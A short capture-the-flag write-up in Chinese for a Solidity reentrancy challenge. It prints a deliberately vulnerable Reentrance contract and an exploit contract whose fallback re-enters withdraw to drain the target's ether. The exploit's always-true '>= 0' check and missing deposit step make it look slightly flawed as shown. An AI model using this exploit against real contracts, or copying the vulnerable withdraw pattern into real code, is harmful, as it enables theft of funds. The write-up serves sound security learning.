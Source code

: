 
## Re-entrancy

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract Reentrance {
    
        using SafeMath for uint256;
        mapping(address => uint) public balances;

        function donate(address _to) public payable {
            balances[_to] = balances[_to].add(msg.value);
        }

        function balanceOf(address _who) public view returns (uint balance) {
            return balances[_who];
        }

        function withdraw(uint _amount) public {
            if(balances[msg.sender] >= _amount) {
                (bool result,) = msg.sender.call{value:_amount}("");
                if(result) {
                    _amount;
                }
                balances[msg.sender] -= _amount;
            }
        }

        receive() external payable {}
    }
    ```

重入攻击，因为使用的是 `#!js msg.sender.call{value:_amount}("")`，并且在这之后才减少 balances

而这个 call 会掉到 fallback 中，如果 fallback 里再次调用了 withdraw 就实现了重入攻击，不断取出目标合约的余额直到为 0

先通过 `#!js await getBalance(instance)` 得到目标合约中的 balance 为 0.001 ether，所以每次 withdraw 0.001 ether 就好

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Reentrance */

    contract Exploit {
        Reentrance challenge;
        constructor(address payable addr) public payable {
            challenge = Reentrance(addr);
        }
        function exp() public {
            challenge.withdraw(0.001 ether);
        }
        fallback() external payable {
            if (address(challenge).balance >= 0) {
                challenge.withdraw(0.001 ether);
            }
        }
    }
    ```
